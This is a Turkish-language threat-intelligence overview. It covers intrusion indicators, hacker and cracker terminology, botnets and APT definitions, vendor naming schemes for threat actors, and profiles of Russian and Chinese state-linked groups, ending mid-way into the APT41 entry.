Paket tutarsızlıkları -yön (gelen veya giden), kaynak adres veya konum ve oturum özellikleri (gelen oturumlar ve giden oturumlar)- da bir saldırının iyi göstergeleri olabilir. Bir paketin alışılmadık bir kaynağı varsa veya anormal bir bağlantı noktasına yönlendirilmişse (örneğin, tutarsız bir hizmet isteği), bu rastgele sistem taramasının bir işareti olabilir. Dışarıdan gelen ve içeride hizmet talep eden yerel ağ adreslerine sahip paketler IP sahteciliği yapılmaya çalışıldığının bir işareti olabilir.

Bazen garip veya beklenmedik sistem davranışları başlı başına bir işarettir. Bunu takip etmek bazen zor olsa da, sistem saatlerindeki değişiklikler, sunucuların kapanması veya sunucu işlemlerinin açıklanamaz bir şekilde durması (sistemin yeniden başlatılması girişimleriyle), sistem kaynağı sorunları (alışılmadık derecede yüksek CPU etkinliği veya dosya sistemlerinde taşmalar gibi), denetim günlüklerinin garip şekillerde davranması (yönetici müdahalesi olmadan boyutunun küçülmesi) veya kaynaklara beklenmedik kullanıcı erişimi gibi etkinliklerin farkında olmalısınız. Belirli günlerde düzenli zamanlarda olağandışı faaliyetler fark ederseniz, yoğun sistem kullanımı (olası DoS saldırısı) veya CPU kullanımı (kaba kuvvet parola kırma girişimleri) her zaman araştırılmalıdır.

### 2.1. Terminoloji Karması: Hacker vs. Cracker

  <strong style="color: #f59e0b; font-size: 1.1em;">⚖️ Karşılaştırma Kartı: Hacker vs. Cracker</strong>
  <table style="width: 100%; border-collapse: collapse; margin-top: 10px; font-size: 0.9em; color: #9ca3af;">
    <thead>
      <tr style="border-bottom: 1px solid rgba(245, 158, 11, 0.2);">
        <th style="text-align: left; padding: 6px; color: #f59e0b;">Özellik</th>
        <th style="text-align: left; padding: 6px;">Hacker</th>
        <th style="text-align: left; padding: 6px;">Cracker</th>
      </tr>
    </thead>
    <tbody>
      <tr style="border-bottom: 1px solid rgba(255,255,255,0.05);">
        <td style="padding: 6px; font-weight: bold; color: #f3f4f6;">Temel Amaç</td>
        <td style="padding: 6px;">Çözüm üretmek, sistemleri anlamak ve geliştirmek.</td>
        <td style="padding: 6px; color: #f87171;">Sistemleri kırmak, veri çalmak ve zarar vermek.</td>
      </tr>
      <tr>
        <td style="padding: 6px; font-weight: bold; color: #f3f4f6;">Motivasyon</td>
        <td style="padding: 6px;">Merak, bilgi edinme ve siber dayanıklılık.</td>
        <td style="padding: 6px;">Maddi kazanç, casusluk, sabotaj veya prestij.</td>
      </tr>
    </tbody>
  </table>

Programlama ve bilgisayar ağları konusunda uzman olan ve karmaşık problemleri çözme konusunda başarılı olan insanlardan oluşan bir topluluk, bilgi işlemin ilk günlerinden beri var olmuştur. Hacker teriminin kökeni bu kültürün üyelerine dayanır ve interneti kurup çalıştıranların ve Unix işletim sistemini yaratanların hackerlar olduğunu belirtmekte gecikmezler. Hackerlar kendilerini bir şeyler inşa eden ve onları çalışır hale getiren bir topluluğun üyeleri olarak görürler. Ve cracker terimi, kültürlerinde olanlar için bir onur nişanıdır.

Geleneksel bir hacker'a bilgisayar sistemlerine gizlice girerek veri çalan ya da hasara neden olan kişileri sorduğunuzda, büyük olasılıkla bu kişilerin gerçek hacker olmadığını söyleyerek sizi düzeltecektir. (Hacker camiasında bu tipler için kullanılan terim cracker'dır ve bu iki etiket eş anlamlı değildir). Bu nedenle, geleneksel hackerları gücendirmemek için cracker terimini kullanacağım ve onlara ve çabalarına odaklanacağım.

Akranlarının takdirini kazanmak isteyen yalnız kurt cracker'dan, intikam peşindeki hoşnutsuz eski çalışana ya da zengin kapitalistleri alaşağı etmeye kararlı düşman bir hükümetin derin ceplerine ve görünüşte sınırsız kaynaklarına kadar, cracker'lar sisteminizin savunma zırhındaki çatlağı bulmak için dışarıdadır.

Bir cracker'ın uzmanlık alanı — ya da bazı durumlarda hayattaki görevi — kendi amaçları için bireysel bir bilgisayarın veya ağın güvenlik açıklarını aramak ve kullanmaktır. Cracker'ların niyetleri normalde kötü niyetli ve/veya suç niteliğindedir. Taktiklerini, becerilerini ve bilgilerini geliştirmelerine yardımcı olmak için tasarlanmış geniş bir bilgi kütüphanesine sahiptirler ve yeraltı ağları üzerinden bilgi paylaşan benzer düşünen bireylerden oluşan bir topluluk aracılığıyla diğer crackerların neredeyse sınırsız deneyiminden yararlanabilirler.

Bu hayata genellikle en temel becerileri öğrenerek başlarlar: yazılım programlama. Bir bilgisayara istediklerini yaptırabilecek kod yazma becerisi başlı başına baştan çıkarıcıdır. Programlama hakkında daha fazla şey öğrendikçe, işletim sistemleri hakkındaki bilgilerini ve doğal bir ilerleme olarak işletim sistemlerinin zayıflıklarını da genişletirler. Ayrıca, yasadışı işlerinin kapsamını ve türünü genişletmek için HTML öğrenmeleri gerektiğini de çabucak öğrenirler — bu kod, şüphelenmeyen kullanıcıları önemli finansal veya kişisel verileri ifşa etmeleri için cezbeden sahte Web sayfaları oluşturmalarına olanak tanır.

Bu yeni kırıcıların bilgi almak için başvurabilecekleri geniş yeraltı örgütleri vardır. Toplantılar düzenliyor, makaleler yazıyor ve birbirlerine aktardıkları araçlar geliştiriyorlar. Tanıştıkları her yeni tanıdık, becerilerini güçlendirir ve onlara giderek daha sofistike tekniklere geçmeleri için eğitim verir. Belirli bir yeterlilik seviyesine ulaştıklarında, ticaretlerine ciddi bir şekilde başlarlar.

İnternette potansiyel hedef firmaları araştırarak işe başlarlar (kurumsal ağla ilgili her türlü bilgi için paha biçilmez bir kaynaktır). Bir hedef belirlendikten sonra, sessizce etrafta dolaşarak unutulmuş eski arka kapıları ve işletim sistemi açıklarını araştırabilirler. Bir saldırı başlatmak için başlangıç noktası olarak IP adresleri (veya IP adresi aralıkları) sağlayabilecek temel DNS sorgularını çalıştırarak basit ve zararsız bir şekilde başlayabilirler. Arkalarına yaslanıp gelen ve/veya giden trafiği dinleyebilir, IP adreslerini kaydedebilir ve çeşitli cihazlara veya kullanıcılara ping atarak zayıflıkları test edebilirler.

Yetkisiz bağlantılarını canlı ve karlı tutmak için tasarlanmış şifre kırma veya kayıt uygulamaları, tuş vuruşu kaydediciler veya diğer kötü amaçlı yazılımları gizlice yerleştirebilirler.

Cracker, bir siber-ninja gibi davranmak, sinsice yaklaşmak ve hiçbir iz bırakmadan ağınıza sızmak ister. Bazı daha deneyimli crackerlar, faaliyetlerini gizlemek için kendileriyle ağınız arasına çoğu ele geçirilmiş birden fazla makine katmanı koyabilir. Aynalarla dolu bir odada durmak gibi, saldırı o kadar çok yerden geliyor gibi görünür ki gerçeği hayaletten ayırt edemezsiniz. Ve siz daha ne yaptıklarını anlayamadan, rüzgârdaki duman gibi ortadan kaybolurlar.


```mermaid
classDiagram
class Hacker {
    +Sistemi anlamak()
    +Merak güdümlü()
}
class Cracker {
    +Sistemi kırmak()
    +Finansal kazanç()
}
class GuvenlikUzmani ["Güvenlik Uzmanı"] {
    +Tehdidi anlamak()
    +Olayı tespit etmek()
}

Hacker <|-- GuvenlikUzmani
Cracker <|-- GuvenlikUzmani
```

### 2.2. Script Kiddies'ten Profesyonel "Suç Şirketlerine"

Bir zamanlar bilgisayar korsanı, genellikle övünme hakkından başka bir şey için sistemlere giren, sosyal becerileri zayıf, yalnız bir genç olarak tasvir edilirdi. Ancak e-ticaret geliştikçe bilgisayar korsanlarının profili de değişti.

Artık toplanabilecek kredi kartı numaralarının ve fikri mülkiyetin geniş koleksiyonları mevcut olduğundan, organize hacker grupları işletme gibi faaliyet göstermek üzere kurulmuştur. Günümüzde siber suç örgütleri gerçek dünya şirketleri gibi çalışmaktadır: FIN7, Scattered Spider ve Lazarus Group gibi gruplar, İK fonksiyonları, teknik bölümleri ve hatta fidye yazılımı mağdurları için müşteri destek birimleri olan hiyerarşik yapılara sahiptir. Bireysel hackerlar veya ortak hedefleri olan hacker gruplarını geride bırakın; endişelenmeniz gereken şey, her siber suçlunun kendi rol ve ödül sistemine sahip olduğu hiyerarşik siber suç örgütleridir.

*WannaCry fidye yazılımı saldırı akışı — yamalanmamış EternalBlue zafiyetinden kripto fidyeye.*

Kurumların yüksek motivasyonlu ve yetenekli bilgisayar korsanı grupları tarafından saldırıya uğradığı günümüzde, güvenli bir altyapı oluşturmak zorunlu hale gelmiştir.

### 2.3. Botnet Epidemisi ve Zombi Bilgisayarlar

Son birkaç yıldır ortaya çıkan yeni ve özellikle öldürücü bir tehdit, bir virüsün çok sayıda korumasız bilgisayara (genellikle evlerde bulunanlar) gizlice yerleştirildiği, onları (sahiplerinin bilgisi olmadan) ele geçirdiği ve bilgisayar korsanının emirlerini yerine getirecek kölelere dönüştürdüğü bir tehdittir. Bot olarak bilinen bu ele geçirilmiş bilgisayarlar, botnet adı verilen geniş ve genellikle takip edilemeyen ağlara bağlanır. Botnet'ler, talimatlar merkezi bir bilgisayardan gelecek ve ağdaki diğer botlanmış bilgisayarlar arasında hızla paylaşılacak şekilde çalışacak şekilde tasarlanmıştır. Daha yeni botnet'ler artık "eşler arası" bir yöntem kullanıyor ve bu da merkezi bir tanımlanabilir kontrol noktasından yoksun oldukları için kolluk kuvvetlerinin tespitini imkansız olmasa da zorlaştırıyor. Ve genellikle uluslararası sınırları aşarak, onları soruşturacak ve kapatacak araçları (ya da iradesi) olmayan ülkelere girdikleri için, endişe verici bir hızla büyüyebiliyorlar. O kadar kazançlı olabilirler ki artık korsanların tercih ettiği bir araç haline gelmişlerdir.

*Botnet ağının temel yapısı — zombi bilgisayarlar C&C sunucusu aracılığıyla yönetilir.*

Botnet'ler, büyük ölçüde, bilgisayar güvenliğinin temel ilkelerine (yüklü ve/veya güncel antivirüs yazılımı, şüpheli kodlar için düzenli taramalar vb.) uymayan ve böylece farkında olmadan suç ortağı haline gelen kullanıcıların sayısı nedeniyle var olmaktadır. Bir kez ele geçirildikten ve "botlandıktan" sonra, makineleri büyük hacimlerde istenmeyen spam veya kötü amaçlı kodun hızla dağıtılabileceği kanallara dönüştürülür. Mevcut tahminlere göre, internetteki 800 milyon bilgisayarın %40'ı siber hırsızlar tarafından kontrol edilen botlar tarafından yeni virüsler yaymak, istenmeyen spam e-postalar göndermek, hizmet reddi (DoS) saldırılarıyla Web sitelerini çökertmek ya da müşterilerin daha önce iş yaptığı yasal siteler gibi görünen ve davranan bankacılık veya alışveriş Web sitelerinden hassas kullanıcı verilerini hortumlamak için kullanılıyor.

Bu o kadar yaygın bir sorun ki, güvenlik firması Damballa tarafından yayınlanan bir rapora göre, botnet saldırıları Ağustos 2006'da günde tahmini 300.000 iken, bir yıl sonra günde 7 milyonun üzerine çıktı ve gönderilenlerin %90'ından fazlası spam e-posta idi. E-ticaret siteleri için daha da kötüsü, bir sitenin operatörlerinin siber şantajcıya koruma parası ödemedikleri takdirde DoS saldırılarıyla tehdit edildiği büyüyen bir eğilimdir. Bu teröristlerle pazarlık yapmayı reddedenler, sitelerinin acımasız siber "halı bombardımanı" turlarına yenik düştüğünü görüyorlar.

Bot kontrolörleri, ağlarını büyük miktarlarda reklam göndermek için büyük ve takip edilemez bir araca ihtiyaç duyan ancak kendi ağlarını oluşturmak için mali veya teknik kaynaklara sahip olmayan diğer kişilere kiralayarak da para kazanabilirler. Botnet teknolojisinin internette 100 dolardan daha düşük bir fiyata bulunabilmesi ve bu sayede çok kazançlı olabilecek bir işe başlamanın nispeten kolay olması işleri daha da kötüleştiriyor.

### 2.4. En Üst Seviye: Gelişmiş Kalıcı Tehditler (APT) Nedir?

  <strong style="color: #ef4444; font-size: 1.1em;">⚠️ Kritik Tehdit Kartı: CVE-2017-0144 (EternalBlue)</strong>
  

    <strong>Kullanılan Saldırı:</strong> WannaCry ve NotPetya Ransomware 
    <strong>Açıklama:</strong> Microsoft SMBv1 protokolündeki arabellek taşması açığından yararlanarak, ağdaki diğer bilgisayarlara kullanıcı etkileşimi olmadan (worm/solucan şeklinde) yayıldı. Küresel olarak milyarlarca dolarlık zarara yol açtı.
  

* **Temel Özellikler:** Bir APT, sadece bir kötü amaçlı yazılım değil, bir davetsiz misafirin hassas verileri çalmak amacıyla uzun süreli ve tespit edilemeyen bir varlık oluşturduğu sofistike, sürekli bir siber saldırı kampanyası olarak tanımlanacaktır. Temel nitelikleri şunlardır:
* **Gelişmiş** (tam spektrumlu istihbarat toplama teknikleri), **Kalıcı** (fırsatçı değil, belirli hedeflere yönelik) ve **Tehdit** (sadece otomatik araçlar değil, insan liderliğinde).
* **Motivasyonlar ve Hedefler:** APT'lerin temel hedefleri dört ana kategoriye ayrılır: Siber Casusluk (devlet sırlarının veya fikri mülkiyetin çalınması), e-Suç (finansal kazanç için), Hacktivizm ve Yıkım. Bu motivasyonlar genellikle politiktir veya ekonomiktir ve hükümet, savunma, finans ve sanayi gibi geniş bir sektör yelpazesini hedefler.
* **APT Yaşam Döngüsü:** Tipik saldırı zincirine kısa bir genel bakış sunulacaktır: ilk sızma (genellikle sosyal mühendislik yoluyla), genişleme (yetki yükseltme ve yanal hareket) ve sızdırma (veri hırsızlığı). Bu, ilerleyen bölümlerde ayrıntılı olarak ele alınacak olan TTP'leri (Taktikler, Teknikler ve Prosedürler) anlamak için bir zemin hazırlar.

---

Amaç aynı olsa da -ağ savunmanıza sızmak- bilgisayar korsanlarının motivasyonları genellikle farklıdır. Bazı durumlarda bir ağa izinsiz giriş, kuruma zarar vermek veya kâr amacıyla şirket sırlarını çalmak isteyen hoşnutsuz bir çalışan tarafından içeriden yapılabilir.

Kredi kartı bilgilerini çalmak için özenle çalışan ve daha sonra bunu satışa sunan büyük cracker grupları vardır. Hızlıca kapıp kaçmak isterler-istediklerini alır ve giderler. Kuzenleri ise ağ parazitleridir — ağınızı sessizce ihlal edip sonra da orada oturup verileri hortumlayanlar.

Yeni ve çok rahatsız edici bir eğilim, bazı hükümetlerin hem federal hem de kurumsal sistemlerin ağ kaynaklarına yönelik dijital saldırıları finanse ettiğinin keşfedilmesidir. ABD Savunma Bakanlığı'ndan Yeni Zelanda, Fransa ve Almanya hükümetlerine kadar çeşitli kurumlar, kimliği belirsiz Çinli bilgisayar korsanlığı gruplarından kaynaklanan saldırılar bildirmiştir. Çin hükümetinin herhangi bir dahli olduğunu reddettiği ve dahli olduğuna ya da olduğuna dair herhangi bir kanıt bulunmadığı belirtilmelidir. Ayrıca, Ekim 2008'de Güney Kore Başbakanının kabinesine "son dört yıl içinde yaklaşık 130.000 hükümet bilgisinin [Kuzey Koreli bilgisayar korsanları tarafından] hacklendiği" yönünde bir uyarıda bulunduğu bildirilmektedir.

Siber suçluların ve devlet destekli bu orduların motivasyonlarını anlamak kritik olsa da, savunma tarafındaki en büyük operasyonel zorluklardan biri bu düşmanları nasıl tanımlayacağımızdır. Çünkü siber güvenlik sektörü, adeta bir Babil Kulesi gibi, aynı tehdide yüzlerce farklı isim vermektedir.

## Küresel Tehdit İstihbaratında "Babil Kulesi" Problemi ve İsimlendirme Sanatı

* **"Babil Kulesi" Sorunu:** Bu alt bölüm, tehdit aktörleri için evrensel bir adlandırma standardının neden pratik olmadığını ve mümkün olmayabileceğini açıklayacaktır. Farklı güvenlik sağlayıcıları (Microsoft, CrowdStrike, Mandiant, Kaspersky, Palo Alto Networks vb.) kendi telemetrilerine, görünürlüklerine ve iç araştırma önceliklerine sahip olduklarından, benzersiz adlandırma şemaları geliştirirler. Bu durum, birden fazla kaynaktan gelen istihbaratı ilişkilendirmek zorunda olan savunucular için bir "Rosetta Taşı" sorunu yaratır.
* **Sağlayıcı Taksonomileri:** Okuyucunun karşılaşacağı takma adlar için zihinsel bir model sağlamak amacıyla başlıca sağlayıcı adlandırma şemalarının üst düzey mantığı tanıtılacaktır.
* **Microsoft:** Hava durumu temalı bir taksonomi kullanır. "Blizzard" (Rusya), "Typhoon" (Çin), "Sandstorm" (İran) ve "Sleet" (Kuzey Kore) gibi aile adları ulus-devlet kökenini belirtirken, "Tempest" finansal motivasyonlu aktörleri belirtir. Yeni keşfedilen faaliyetler "Storm" ve sayısal bir kodla belirtilir.
* **CrowdStrike:** Hayvan temalı bir kural kullanır. Ulus-devletler için ulusal hayvanlar kullanılır ("Bear" Rusya için, "Panda" Çin için, "Kitten" İran için, "Chollima" Kuzey Kore için). Finansal motivasyonlu gruplar "Spider", hacktivistler ise "Jackal" olarak adlandırılır.
* **Mandiant (Google Cloud):** Tarihsel olarak sayısal bir sistem kullanır: devlet destekli casusluk grupları için "APT" (ör. APT28, APT29) ve finansal motivasyonlu aktörler için "FIN" (ör. FIN7). Kategorize edilmemiş gruplar "UNC" olarak adlandırılır.
* **Palo Alto Networks (Unit 42):** Göksel bir tema kullanır; motivasyonlar için takımyıldızlar (ör. finansal için "Libra") ve ulus-devletler için mitolojik yaratıklar (ör. Rusya için "Ursa", İran için "Serpens") kullanılır.
* **Kaspersky:** Genellikle kötü amaçlı yazılım eserlerinden veya kampanya özelliklerinden türetilen adlar kullanır (ör. APT28 için "Sofacy", Kuzey Koreli grup için "Lazarus").
* **Endüstri İşbirliği:** Microsoft ve CrowdStrike arasında, düşman adlarını çözümlemek ve birbiriyle uyumlu bir haritalama oluşturmak için yapılan son stratejik ittifaka dikkat çekilecektir. Bu, tek bir standardın olası olmamasına rağmen, daha iyi bir korelasyonun endüstri hedefi olduğunu göstermektedir.

Farklı ve karmaşık adlandırma şemalarının varlığı, siber güvenlik endüstrisinin yapısını doğrudan yansıtır: her biri özel verilere sahip özel kuruluşlardan oluşan rekabetçi bir pazar. Bu parçalanma, zengin ve çeşitli istihbarat kaynağı olsa da, bu farklı akışları sentezlemek zorunda olan savunucular üzerinde doğal olarak operasyonel bir yük oluşturur. Bir Güvenlik Operasyon Merkezi (SOC) analisti için zorluk sadece teknik (tehdidi tespit etmek) değil, aynı zamanda analitiktir (tehdit hakkındaki istihbaratı ilişkilendirmek). Bu raporun temel değeri, bu analitik boşluğu dolduracak bir araç olarak hizmet etmektir.



**Tehdit Aktörü Taksonomisi Rosetta Taşı**

Bu tablo, bir "Rosetta Taşı" görevi görerek, bir bakışta isim çakışmalarını çözme aracı sağlar. Bir Microsoft raporunda "Typhoon" aktörüyle karşılaşan bir kullanıcı, bunun Çin bağlantılı bir grup olduğunu anında anlayabilir ve CrowdStrike'dan gelen "Panda" raporlarıyla çapraz referans yapabilir. Bu, kullanıcının karmaşık istihbarat ortamında gezinmesini sağlar ve raporun geri kalanını daha anlaşılır ve kullanışlı hale getirir.

---

## Coğrafi ve Jeopolitik Eksende APT Grupları (Derinlemesine İnceleme)

### 4.1. Rusya Bağlantılı Aktörler: Yüksek Sabotaj ve İstihbarat Entegrasyonu

Bu bölüm, sofistike casusluk, yıkıcı yetenekler ve entegre "bilgi çatışması" doktrinleriyle tanınan Rusya Federasyonu'na atfedilen tehdit aktörlerini detaylandıracaktır.

#### APT28 (Fancy Bear / Forest Blizzard)

* **Takma Adlar:** Fancy Bear (CrowdStrike), Forest Blizzard, STRONTIUM (Microsoft), Sofacy (Kaspersky), Sednit (ESET), Pawn Storm (Trend Micro), IRON TWILIGHT (Secureworks), Tsar Team, Group 74, APT 28, G0007 ve daha fazlası dahil olmak üzere kapsamlı bir liste.
* **Atıflandırma ve Motivasyon:** Yüksek güvenle Rusya Genelkurmay Başkanlığı Ana İstihbarat Direktörlüğü'ne (GRU), özellikle 26165 numaralı birime atfedilir. Motivasyonları öncelikle askeri ve politik casusluk olup, Rus hükümetinin çıkarlarıyla uyumludur. Ekonomik kazanç için yaygın fikri mülkiyet hırsızlığı yapmıyor gibi görünmektedirler.
* **Hedef Profili:** Hedefleri arasında hükümet, askeri ve güvenlik kuruluşları, özellikle NATO ve Transkafkasya devletleri bulunmaktadır. Ayrıca savunma sektörü, enerji, medya, sivil toplum ve Dünya Anti-Doping Ajansı (WADA) ve Kimyasal Silahların Yasaklanması Örgütü (OPCW) gibi uluslararası kurumları da hedef almışlardır.
* **Operasyonel Özet ve TTP'ler:** En az 2004'ten beri aktif olan APT28, agresif ve yüksek etkili operasyonlarıyla tanınır.
* **Önemli Kampanyalar:** 2016'da Demokratik Ulusal Komite'nin (DNC) ele geçirilmesi , 2015'te Alman Federal Meclisi'ne (Bundestag) yapılan siber saldırı ve WADA'ya yönelik "hack-and-leak" (saldır ve sızdır) operasyonları. Şu anda Ukrayna'yı destekleyen lojistik ve teknoloji firmalarına karşı yaygın bir siber casusluk kampanyası yürütmektedirler.
* **İlk Erişim:** Kötü amaçlı bağlantılar veya ekler içeren hedefli oltalama (spear-phishing) saldırılarına , sahte web siteleri aracılığıyla kimlik bilgisi toplamaya ve özellikle e-posta sunucuları ve yönlendiriciler gibi halka açık uygulamaları istismar etmeye büyük ölçüde güvenirler.
* **Sızma Sonrası:** X-Agent, Zebrocy, Sofacy gibi özel kötü amaçlı yazılımlar ile Mimikatz, Cobalt Strike gibi halka açık araçların bir karışımını kullanırlar. Önemli bir TTP, çalınan verileri sızdırmak ve bilgi operasyonlarını ilerletmek için Guccifer 2.0 ve "Fancy Bears' Hack Team" gibi "hacktivist" kimliklerini kullanmalarıdır, bu da onlara makul bir inkâr edilebilirlik sağlar.

#### APT29 (Cozy Bear / Midnight Blizzard)

  <strong style="color: #f59e0b; font-size: 1.1em;">🔒 Tedarik Zinciri Analizi: CVE-2020-10148 (SolarWinds Orion Bypass)</strong>
  

    <strong>Grup:</strong> Cozy Bear / Midnight Blizzard (APT29) 
    <strong>Saldırı Mekanizması:</strong> Güvenilir SolarWinds Orion izleme yazılımının güncelleme paketlerine "SUNBURST" arka kapısı enjekte edildi. Bu sayede ABD federal kurumları dahil 18.000'den fazla hassas ağa sızıldı.
  

* **Takma Adlar:** Cozy Bear (CrowdStrike), Midnight Blizzard, NOBELIUM (Microsoft), The Dukes, IRON HEMLOCK, UNC2452, APT29, G0016.
* **Atıflandırma ve Motivasyon:** Rusya Dış İstihbarat Servisi'ne (SVR) atfedilir. Temel motivasyonları, Rus devletine avantaj sağlayacak dış politika, diplomatik ve jeopolitik verileri toplamaya odaklanan uzun vadeli istihbarat toplama ve casusluktur.
* **Hedef Profili:** Avrupa ve NATO üyesi ülkelerdeki hükümet ağlarını, diplomatik kuruluşları, düşünce kuruluşlarını, araştırma enstitülerini ve BT hizmet sağlayıcılarını hedefler. Ayrıca COVID-19 aşı araştırmalarıyla ilgili kuruluşları da hedef almışlardır.
* **Operasyonel Özet ve TTP'ler:** En az 2008'den beri aktif olan APT29, gizliliği, sofistike taktikleri ve sabrıyla tanınır.
* **Önemli Kampanyalar:** 2015–2016 DNC sızması (APT28'den ayrı olarak yürütülmüştür) , 2020 SolarWinds tedarik zinciri saldırısı (UNC2452/NOBELIUM olarak izlenir) ve 2024'te Microsoft ve TeamViewer'a yönelik son saldırılar.
* **İlk Erişim:** Sofistike hedefli oltalama , tedarik zinciri sızmaları (SolarWinds) ve bulut hizmetlerine yönelik parola püskürtme (password spraying) gibi kimlik tabanlı saldırılar da dahil olmak üzere çok çeşitli ilk erişim vektörleri kullanırlar.
* **Sızma Sonrası:** Özel "Duke" ailesi kötü amaçlı yazılımlarıyla (MiniDuke, CozyDuke vb.) tanınırlar. Tespitten kaçmak için PowerShell ve meşru bulut yönetim araçlarını kullanarak "yerel araçları kullanma" (living off the land) tekniklerinden yoğun bir şekilde yararlanırlar. Önemli bir TTP, bulut ortamlarında kalıcılık ve yanal hareket için OAuth uygulamalarını ve çalınan belirteçleri (token) kötüye kullanmalarıdır.

*SolarWinds SUNBURST operasyonu — tedarik zinciri saldırısının 12 adımlık anatomisi (Vectra, 2020).*

#### Sandworm (APT44 / Seashell Blizzard)

* **Takma Adlar:** APT44 (Mandiant), Seashell Blizzard (Microsoft), VOODOO BEAR, IRON VIKING, Telebots.
* **Atıflandırma ve Motivasyon:** GRU'nun 74455 numaralı Askeri Birimi'ne atfedilir. Sandworm, casusluk, saldırı ve etki operasyonlarının tam spektrumunda aktif olan dinamik ve olgun bir aktördür. Temel motivasyonları, özellikle yıkıcı ve tahrip edici saldırılar yoluyla Rusya'nın askeri ve politik hedeflerini desteklemektir.
* **Hedef Profili:** Öncelikle hükümet, savunma, ulaşım, enerji ve medya kuruluşlarını, özellikle Ukrayna ve Rusya'nın "yakın çevresi" üzerinde yoğunlaşarak hedefler. Ayrıca Batı seçim sistemlerini ve küresel kritik altyapıyı da hedeflerler.
* **Operasyonel Özet ve TTP'ler:** Tarihteki en önemli siber saldırılardan bazılarından sorumludur.
* **Önemli Kampanyalar:** 2015 ve 2016 Ukrayna elektrik şebekesi saldırıları, 2017 küresel NotPetya saldırısı ve 2018 Pyeongchang Olimpiyatları'nın sabote edilmesi. Şu anda Ukrayna'da silici (wiper) kötü amaçlı yazılımlar kullanarak yüksek yoğunluklu bir siber sabotaj kampanyası yürütmektedirler.
* **TTP'ler:** Yönlendiriciler ve VPN'ler gibi uç altyapıyı istismar etmekten tedarik zinciri sızmalarına kadar geniş bir ilk erişim vektörü yelpazesinden yararlanırlar. Yıkıcı silici kötü amaçlı yazılımlar dağıtmalarıyla tanınırlar ve son zamanlarda ABD ve Avrupa'daki kritik altyapıya yönelik saldırıların sorumluluğunu üstlenmek ve veri sızdırmak için "CyberArmyofRussia\_Reborn" gibi hacktivist kimlikleriyle ilişkilendirilmişlerdir.

#### Gamaredon (Primitive Bear / Aqua Blizzard)

* **Takma Adlar:** Primitive Bear (CrowdStrike), Aqua Blizzard (Microsoft), Armageddon, Shuckworm.
* **Atıflandırma ve Motivasyon:** Rusya Federal Güvenlik Servisi'ne (FSB) atfedilir. Temel motivasyonları siber casusluktur.
* **Hedef Profili:** Neredeyse tamamen Ukrayna hükümeti ve askeri kuruluşlarına odaklanmıştır.
* **Operasyonel Özet ve TTP'ler:** Büyük ölçekli hedefli oltalama kampanyalarıyla tanınan oldukça aktif ve kalıcı bir tehdit aktörüdür. Komuta ve kontrol (C2) iletişimleri için özel kötü amaçlı yazılımlar kullanır ve genellikle meşru yazılım ve hizmetlerden yararlanırlar.

*Komuta ve Kontrol (C2) sunucusu — saldırgan kurbanı güvenlik duvarı üzerinden yönetir.*

GRU/SVR operasyonel ikilemi, bu grupların gözlemlenen TTP'lerinde ve hedeflemelerinde açıkça görülmektedir. Bir askeri istihbarat teşkilatı olan GRU'ya bağlı APT28 ve APT44, seçimlere müdahale ve yıkıcı saldırılar gibi taktiksel askeri ve politik hedeflerle uyumlu, agresif ve genellikle gürültülü operasyonlar yürütür. Buna karşılık, bir dış istihbarat teşkilatı olan SVR'ye bağlı APT29, geleneksel dış casuslukla uyumlu olarak diplomatik ve politika yapıcı kurumlardan stratejik istihbarat toplamak için uzun vadeli, gizli operasyonlara odaklanır ve daha fazla operasyonel güvenlik ve sabır gösterir. Bu ayrım, savunucuların tespit edilen gruba dayanarak düşmanın niyetini daha iyi tahmin etmelerini sağlar.

Ayrıca, Rusya bağlantılı aktörler, devlet hedefleri için e-suç altyapısını ve aktörlerini kullanma eğilimi göstermektedir. Bu, makul bir inkâr edilebilirlik sağlar ve daha geniş bir araç ve kaynak havuzuna erişim imkanı tanır. Örneğin, Rusya merkezli e-suç grubu SCULLY SPIDER tarafından işletilen DanaBot kötü amaçlı yazılımı, Rus askeri hedefleriyle uyumlu olarak Ukrayna Savunma Bakanlığı'na karşı DDoS saldırıları düzenlemek için kullanılmıştır. DOJ iddianamesi, DanaBot alt botnetlerinin casusluk amaçlı da kullanıldığını ortaya koymuştur ki bu, devlet faaliyetlerinin bir özelliğidir. Bu durum, Rusya'nın "bilgi çatışması" doktrini içinde devlet ve suç faaliyetleri arasındaki çizgileri kasıtlı olarak bulanıklaştıran bir stratejiyi ima eder ve Batılı uluslar için atıflandırmayı ve müdahaleyi karmaşıklaştırır.

### 4.2. Çin Bağlantılı Aktörler: Endüstriyel Casusluk ve Altyapı Sızmaları

Bu bölüm, genellikle büyük ölçekli fikri mülkiyet hırsızlığı, geniş spektrumlu casusluk ve artan operasyonel karmaşıklık ile karakterize edilen Çin Halk Cumhuriyeti'ne atfedilen tehdit aktörlerini detaylandıracaktır.

#### APT1 & APT10 (Stone Panda / Comment Crew / Red Apollo)

* **Takma Adlar:** Comment Crew, Shanghai Group, PLA Unit 61398.
* **Atıflandırma ve Motivasyon:** Halk Kurtuluş Ordusu (PLA) 61398 Birimi'ne atfedilir. Temel motivasyon, ekonomik kazanç ve fikri mülkiyet hırsızlığı için yapılan siber casusluktur.
* **Hedef Profili:** Savunma, havacılık ve teknoloji dahil olmak üzere geniş bir endüstri yelpazesi.
* **Operasyonel Özet ve TTP'ler:** Kamuoyuna açıklanan ilk APT'lerden biridir (2013'te Mandiant tarafından). Kurban ağlarında ortalama bir yıl kalma süresiyle uzun süreli sızmalarıyla tanınır. Mimikatz gibi özel kötü amaçlı yazılımlar ve halka açık araçlar kullanırlar.

* **Takma Adlar:** Stone Panda (CrowdStrike), Red Apollo, MenuPass, POTASSIUM (Microsoft), Cloud Hopper.
* **Atıflandırma ve Motivasyon:** Çin Devlet Güvenlik Bakanlığı'na (MSS), Tianjin Devlet Güvenlik Bürosu'na atfedilir. Motivasyon siber casusluktur.
* **Hedef Profili:** "Cloud Hopper" kampanyasında sağlık, savunma, havacılık ve yönetilen hizmet sağlayıcıları (MSP) dahil olmak üzere küresel olarak birden fazla sektörü hedefler.
* **Operasyonel Özet ve TTP'ler:** Müşterilerine erişim sağlamak için MSP'leri hedef alan tedarik zinciri saldırılarıyla tanınır. HAYMAKER, SNUGRIDE gibi özel kötü amaçlı yazılımların ve PowerShell, WMIExec gibi meşru araçların bir karışımını kullanır.

#### APT41 (Winnti / Brass Typhoon)

* **Takma Adlar:** BARIUM, WICKED PANDA, Winnti Group, Double Dragon (CrowdStrike/Mandiant), Brass Typhoon (Microsoft).
